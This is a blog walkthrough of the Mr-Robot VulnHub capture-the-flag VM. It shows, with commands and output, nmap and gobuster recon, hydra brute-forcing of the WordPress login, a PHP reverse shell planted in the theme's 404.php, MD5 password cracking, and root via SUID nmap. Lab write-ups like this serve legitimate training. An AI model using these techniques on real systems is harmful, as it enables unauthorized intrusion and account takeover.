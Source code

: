```yaml
---
date: 2020-04-21 18:24:19
layout: post
title: "Mr Robot Vulnhub Walkthrough"
subtitle:
description: Mr-Robot 1 is one of vulnhub's CTF challenges, based on the favored TV series 'Mr Robot' (which is one of the best TV series).
image: /assets/img/uploads/mr-robot-ctf/mr-robot.jpg
optimized_image: /assets/img/uploads/mr-robot-ctf/mr-robot-optimized.jpg
category: walkthrough
tags: vulnhub boot2root
author:
paginate: false
---
```


Mr-Robot: 1 is one of vulnhub's CTF challenges, based on the favored TV series 'Mr Robot' (which is one of the best TV series). There are 3 hidden keys in the VM. Our objective is to locate all 3 keys.

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```r
m1m3@kali:~$ nmap -sC -sV -oA nmap/mrRobot 192.168.1.7

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.7
Host is up (0.0018s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds

```
<br>
We see a ssh port open and ports 80 and 443 are open. Let's fire up our browser and see what's running on port 80.

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/port80.png">
</center>

### KEY-1-OF-3

We'll try with some basics first. How about checking out for a robots.txt file?

```r
User-agent: *
fsocity.dic
key-1-of-3.txt
```

BOOM! We just found a dictionary file as well as our first key. Lets grab our first key at <b>http://target_ip/key-1-of-3.txt</b>. Also lets download the dictionary file, it might be useful.

Now let's use gobuster to search for directories we have.

```r
m1m3@kali:~$ gobuster dir -u http://192.168.1.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================                 
Gobuster v3.0.1                                 
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================                                                                                                          
[+] Url:            http://192.168.1.7                 
[+] Threads:        10                 
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt    
[+] Status codes:   200,204,301,302,307,401,403 
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/feed (Status: 301)
/video (Status: 301)
/image (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
```

We see a lot of directories here. Also, we can see this site is running wordpress. So let's try bruteforcing the <i>/wp-login</i> with the dictionary file we have. Let's fire up burp to intercept the login request. I'll try a random username and password.

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/burp.png">
</center>

And we got this:<br>
<i>log=admin&pwd=admin&wp-submit=Log+In</i>

I'll be using <i>hydra</i> to fuzz the username. Before that let's sort the dictionary file to remove duplicate words using: 

`$ sort fsocity.dic | uniq > sorted.dic`

```r
m1m3@kali:~$ hydra -V -L sorted.dic -p 4444 192.168.1.7 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username' | grep http-post-form

[DATA] attacking http-post-form://192.168.1.7:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username
[80][http-post-form] host: 192.168.1.7   login: Elliot   password: 4444
[80][http-post-form] host: 192.168.1.7   login: elliot   password: 4444
[80][http-post-form] host: 192.168.1.7   login: ELLIOT   password: 4444
```
We got the username Elliot, Now we will run the same attack again for the password.

```r
m1m3@kali:~$ hydra 192.168.1.7 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -l Elliot -P sorted.dic -t 10 -w 30

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-28 15:17:15
[DATA] max 10 tasks per 1 server, overall 10 tasks, 11452 login tries (l:1/p:11452), ~1146 tries per task
[DATA] attacking http-post-form://192.168.1.7:80/wp-login.php:log=^USER^&pwd=^PASS^:incorrect

[80][http-post-form] host: 192.168.1.7   login: Elliot   password: ER28-0652

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished.
```

Thats it we just gained access to the WordPress platform, with the username Elliot and the password ER28-0652! Now we need to find a way to get a reverse shell. 

### KEY-2-OF-3

We can update a plugin with a php reverse shell to to gain access. I'll be using the php shell from <a href="https://github.com/pentestmonkey/php-reverse-shell">pentest monkey.</a>

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/404plugin.png">
</center>

I've edited the 404.php Now our code will be executed if we go to any random url that doesn't exists. And we manage to get a reverse shell from the machine.

```r
m1m3@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.12] from (UNKNOWN) [192.168.1.7] 48942
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:50:44 up  2:25,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

Now If we try to access the second flag in /home/robot/key-2-of-3.txt, we get an error saying permission denied.

```r
daemon@linux:/home/robot$ wc -c key-2-of-3.txt
wc -c key-2-of-3.txt
wc: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ 
```

Also we have a <i>password.raw-md5</i> file in the home directory. This will be our way in!
This can be cracked using any online md5 decryptor and we the password of robot user as <i>abcdefghijklmnopqrstuvwxyz</i>


Now we can login as user robot using: 
```r
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ wc -c key-2-of-3.txt    
wc -c key-2-of-3.txt
33 key-2-of-3.txt
```

### KEY-3-OF-3

Now we must find a way to root. What about SUID files? Let's see.

```r
robot@linux:~$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
< root -perm -4000 -exec ls -ldb {} \; | grep -v proc                        
...
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
...
```

We can see that nmap is installed in the machine, this can be our way to root. Looking up in the <a href='https://gtfobins.github.io/gtfobins/nmap/'>GTFO Bins,</a> I found we can get root using:

```r
robot@linux:~$ nmap --interactive                                 
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )  
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh                                                          
!sh                                                             
# whoami
whoami
root
# wc -c /root/key-3-of-3.txt
wc -c /root/key-3-of-3.txt
33 /root/key-3-of-3.txt
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Ty_poe">Tyler Pate.</a>